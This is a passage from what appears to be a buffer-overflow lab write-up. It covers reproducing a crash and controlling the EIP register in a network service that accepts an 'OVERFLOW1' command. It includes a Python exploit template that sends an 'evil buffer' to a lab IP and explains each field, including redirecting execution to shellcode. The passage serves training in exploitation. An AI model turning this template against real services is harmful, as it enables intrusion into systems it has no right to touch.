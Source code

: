 ### Crash Replication & Controlling EIP

Now we will try to replicate this crash and control the EIP with a Python script, which will:

* Send various inputs to reproduce the application crash caused by a buffer overflow (this confirms the existence of buffer overflow).
* Overwrite the __EIP__ (Extended Instruction Pointer) register to redirect the program's execution to malicious code placed in memory.

For that we need to create the following __`exploit.py`__:

```python3
#!/usr/bin/env python3
import socket

ip = "10.10.86.126"
port = 1337

prefix = "OVERFLOW1 "
offset = 0
overflow = "A" * offset
retn = ""
padding = ""
payload = ""
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
    s.connect((ip, port))
    print("Sending evil buffer...")
    s.send(bytes(buffer + "\r\n", "latin-1"))
    print("Done!")
except:
    print("Could not connect.")
```

* `prefix`: This is the string that the vulnerable application expects to receive at the start. It’s commonly used to identify the exploit, such as `"OVERFLOW1 "` in this case.

* `offset`: This is the length of the buffer you want to send before reaching the point where you want to control the EIP. offset would be the number of "A"s (or other characters) needed to fill the buffer up to the return address, which in this case is set to 0 (indicating no overflow yet).

* `overflow`: This would normally be filled with "A"s (or other characters) to reach the part of the memory where EIP resides. Since offset is 0, no overflow is added at this point. If you were conducting an actual buffer overflow, this would be a string of "A"s to fill up the space up to the point where the EIP register would be overwritten.

* `retn`: This is the return address that would be used to redirect the program flow to your shellcode or any other target. This part is empty here, but in a real exploit, you'd typically fill this with the address of your shellcode or a jump instruction to redirect the flow.
